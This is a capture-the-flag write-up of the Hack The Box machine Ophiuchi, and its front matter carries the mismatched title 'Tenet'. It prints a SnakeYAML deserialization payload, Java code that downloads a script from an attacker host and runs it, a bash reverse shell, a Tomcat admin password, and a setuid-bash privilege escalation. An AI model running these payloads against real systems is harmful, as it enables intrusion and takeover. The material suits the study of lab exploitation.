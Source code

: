 ```yaml
---
layout: post
title: Tenet
published: true
---
```


**Ophiuchi is a medium machine from Hack The Box.**

### Enumeration

First things first:
```
nmap -sC -sV -v -p- -oN nmap 10.10.10.227
```

The only available services are SSH over 22 and an Apache Tomcat server on port 8080.
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The homepage of the webserver contains a field meant for parsing YAML syntax. I tried to access the Tomcat admin panels but I don't have any credentials so that's probably a dead end for the time being.

I did some poking around the parser and managed to pop a 500 error:
![Pasted image 20210630161559](https://user-images.githubusercontent.com/60187707/124597858-946b0880-de29-11eb-80b3-fb49df616b2d.png)

### Exploitation

Now I have some specifics about the back end. I started looking for SnakeYAML exploits and came across [this article](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858).
There is a deserialization vulnerability in certain SnakeYAML libraries that can lead to RCE.
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Management%20Interface/README.md) also has a good walkthrough of the exploit, and is the one that I used.

Before crafting a payload, I verified the PoC by making sure the web server would reach out to my own web server if prompted and indeed it does:

![Pasted image 20210630162027](https://user-images.githubusercontent.com/60187707/124598623-70f48d80-de2a-11eb-8a4c-cc6a4f40602e.png)

It took a bit to build the payload and necessary file structure, and then a **bit** longer to find a payload that would actually result in a reverse shell.

First, I edited `AwesomeScriptEngineFactory.java` to include my payload, which, in this case, was downloading a reverse shell from my machine to the target's `/tmp` folder, and then executing it.
```
    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("wget http://10.10.14.22/shell.sh -O /tmp/shell.sh");
	    	    Runtime.getRuntime().exec("bash /tmp/shell.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

`shell.sh`:
```
#!/bin/sh
bash -i >& /dev/tcp/10.10.14.22/443 0>&1
```

Next step was to create a YAML config file pointing to a jar file on my server:
```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.22/yaml-payload.jar"]
  ]]
]
```
Then, convert the `.java` file to a class file:
`javac src/artsploit/AwesomeScriptEngineFactory.java`

And build the jar file:
`jar -cvf yaml-payload.jar -C src/ .`

With that all prepped, and a web server spun up, I only needed to paste the proper YAML code into the parser and receive the incoming connection.

![Pasted image 20210701090406](https://user-images.githubusercontent.com/60187707/124600619-82d73000-de2c-11eb-86cb-1f0375a938f3.png)

Tomcat grabbing my shell:

![Pasted image 20210701090740](https://user-images.githubusercontent.com/60187707/124600655-8a96d480-de2c-11eb-8ccf-ab3fbb2c8631.png)

And on the target as `tomcat`:

![Pasted image 20210701090844](https://user-images.githubusercontent.com/60187707/124600706-9f736800-de2c-11eb-86dd-8cde0163d6b4.png)

### Privilege Escalation

Having seen Apache Tomcat a few times before, I knew there were some configuration files that could have credentials, so I went looking.

Looked in `/opt/tomcat/conf/tomcat-users.xml` and found:

`<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>`

I found credentials as a user, `admin`, and used them to login over SSH.

Next step, as always, is checking sudo privileges:

![Pasted image 20210630175218](https://user-images.githubusercontent.com/60187707/124601329-540d8980-de2d-11eb-82fd-9a1138cb4c00.png)

The `admin` user is limited to running a specific Go script.

![Pasted image 20210701092957](https://user-images.githubusercontent.com/60187707/124601623-ad75b880-de2d-11eb-8487-05e4e86d91d7.png)

Looking closely at `index.go`, it seems to read something out of `main.wasm` and if that returns something other than 1, it prints "Not ready to deploy". 
If it returns anything else, however, it will then call `deploy.sh`, which is not an absolute path, and that could enable me to hijack the execution of the script.
`deploy.sh` only contains 2 commented-out lines so it's not doing anything, even if it does get called. Let's fix that.

Next step is finding out what `main.wasm` does.
Download the file to my machine, and clone the [WebAssembly Binary Toolkit](https://github.com/WebAssembly/wabt) to take a closer look.
I used `wasm2wat` to convert `main.wasm` to the human-readable `.wat` format:

```
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

It's a mercifully short file and `i32.const 0` looks like a relevant line for my purposes.

I did [some research](https://developer.mozilla.org/en-US/docs/WebAssembly/Understanding_the_text_format) into WebAssembly and what `i32.const` is used for, and I should be able to just change the 0 to a 1 to hijack the execution flow.

So I did just that:

![Pasted image 20210630184209](https://user-images.githubusercontent.com/60187707/124603706-d434ee80-de2f-11eb-992b-aceb44d20f03.png)

Convert `main.wat` back to `main.wasm` with `wat2wasm`.
Create a malicious `deploy.sh` to place in `/tmp`, where I'll execute the Go script:
```
#!/bin/bash
chmod +s /bin/bash
```

Grab `main.wasm` from my web server and place it in `/tmp`, execute the sudo command, and drop into a new shell:

![Pasted image 20210701100311](https://user-images.githubusercontent.com/60187707/124604033-24ac4c00-de30-11eb-96b4-dc4caaf3185c.png)

Rooted!

















